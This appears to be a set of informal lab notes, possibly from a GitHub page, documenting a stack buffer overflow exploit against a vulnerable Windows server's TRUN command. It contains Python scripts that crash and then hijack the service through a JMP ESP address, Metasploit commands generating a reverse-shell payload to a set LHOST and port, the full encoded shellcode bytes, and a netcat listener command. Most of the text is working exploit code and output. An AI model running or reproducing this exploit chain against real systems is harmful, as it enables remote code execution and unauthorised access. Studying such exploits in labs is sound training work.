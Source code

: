 ```python
#!/usr/bin/python

import socket

buff = "TRUN /.:/ " 
buff +=  "A" * 50000
s = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
s.connect(("192.168.65.10", 9999))
print s.recv(1024)
s.send(buff)
s.close()
```
Run vuln.exe in immunity
pul out the stuff from crash


EIP 41414141
DUBG -> Restart
EIP (64-Bit Instruction Pointer) 6F43376F 2002

Now in the program we run the 
!mona module
- this shows all the DLLs loading into the program once it is ran
!mona jmp -r esp -m "essfunc.dll"

from here you can loookup the vulnerable dll, and find out all the address locations the DLL. At each address these are the instructions jump ESP
-if you put the B's at one of these points it will jump to the stack point
0x625011af
-----------------------------------------------------------------------------------------------
```python
#!/usr/bin/python

import socket

buff = "TRUN /.:/ " 
buff +=  "A" * 2002
buff += "\xaf\x11\x50\x62"
buff += "\x90" * 10
#buff += "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0A$
s = socket.socket ( socket.AF_INET, socket.SOCK_STREAM )
s.connect(("192.168.65.10", 9999))
print s.recv(1024)
s.send(buff)
s.close()
```
```shell
- After complete open up msfconsole to begin creating your exploit payload vector
msf6 > search payload/windows/shell
msf6 > use payload/windows/shell_reverse_tcp
msf6 payload(windows/shell_reverse_tcp) > set LHOST 10.50.34.63
msf6 payload(windows/shell_reverse_tcp) > set LPORT 4444
msf6 payload(windows/shell_reverse_tcp) > generate -f python -b "\x00\X0A\x0D\x20"
# windows/shell_reverse_tcp - 351 bytes
# https://metasploit.com/
# Encoder: x86/shikata_ga_nai
# VERBOSE=false, LHOST=10.50.34.63, LPORT=4444, 
# ReverseAllowProxy=false, ReverseListenerThreaded=false, 
# StagerRetryCount=10, StagerRetryWait=5, 
# PrependMigrate=false, EXITFUNC=process, CreateSession=true, 
# AutoVerifySession=true
buf =  b""
buf += b"\xd9\xe9\xba\xca\x84\x48\xb7\xd9\x74\x24\xf4\x58"
buf += b"\x31\xc9\xb1\x52\x83\xe8\xfc\x31\x50\x13\x03\x9a"
buf += b"\x97\xaa\x42\xe6\x70\xa8\xad\x16\x81\xcd\x24\xf3"
buf += b"\xb0\xcd\x53\x70\xe2\xfd\x10\xd4\x0f\x75\x74\xcc"
buf += b"\x84\xfb\x51\xe3\x2d\xb1\x87\xca\xae\xea\xf4\x4d"
buf += b"\x2d\xf1\x28\xad\x0c\x3a\x3d\xac\x49\x27\xcc\xfc"
buf += b"\x02\x23\x63\x10\x26\x79\xb8\x9b\x74\x6f\xb8\x78"
buf += b"\xcc\x8e\xe9\x2f\x46\xc9\x29\xce\x8b\x61\x60\xc8"
buf += b"\xc8\x4c\x3a\x63\x3a\x3a\xbd\xa5\x72\xc3\x12\x88"
buf += b"\xba\x36\x6a\xcd\x7d\xa9\x19\x27\x7e\x54\x1a\xfc"
buf += b"\xfc\x82\xaf\xe6\xa7\x41\x17\xc2\x56\x85\xce\x81"
buf += b"\x55\x62\x84\xcd\x79\x75\x49\x66\x85\xfe\x6c\xa8"
buf += b"\x0f\x44\x4b\x6c\x4b\x1e\xf2\x35\x31\xf1\x0b\x25"
buf += b"\x9a\xae\xa9\x2e\x37\xba\xc3\x6d\x50\x0f\xee\x8d"
buf += b"\xa0\x07\x79\xfe\x92\x88\xd1\x68\x9f\x41\xfc\x6f"
buf += b"\xe0\x7b\xb8\xff\x1f\x84\xb9\xd6\xdb\xd0\xe9\x40"
buf += b"\xcd\x58\x62\x90\xf2\x8c\x25\xc0\x5c\x7f\x86\xb0"
buf += b"\x1c\x2f\x6e\xda\x92\x10\x8e\xe5\x78\x39\x25\x1c"
buf += b"\xeb\x4c\x88\x3c\xd4\x38\xee\x40\x3b\xe5\x67\xa6"
buf += b"\x51\x05\x2e\x71\xce\xbc\x6b\x09\x6f\x40\xa6\x74"
buf += b"\xaf\xca\x45\x89\x7e\x3b\x23\x99\x17\xcb\x7e\xc3"
buf += b"\xbe\xd4\x54\x6b\x5c\x46\x33\x6b\x2b\x7b\xec\x3c"
buf += b"\x7c\x4d\xe5\xa8\x90\xf4\x5f\xce\x68\x60\xa7\x4a"
buf += b"\xb7\x51\x26\x53\x3a\xed\x0c\x43\x82\xee\x08\x37"
buf += b"\x5a\xb9\xc6\xe1\x1c\x13\xa9\x5b\xf7\xc8\x63\x0b"
buf += b"\x8e\x22\xb4\x4d\x8f\x6e\x42\xb1\x3e\xc7\x13\xce"
buf += b"\x8f\x8f\x93\xb7\xed\x2f\x5b\x62\xb6\x40\x16\x2e"
buf += b"\x9f\xc8\xff\xbb\x9d\x94\xff\x16\xe1\xa0\x83\x92"
buf += b"\x9a\x56\x9b\xd7\x9f\x13\x1b\x04\xd2\x0c\xce\x2a"
buf += b"\x41\x2c\xdb"

# make sure your variable aren't jacked upp buff/buf
#open a netcat listener on linux
nc -lvnp 4444
#now run script

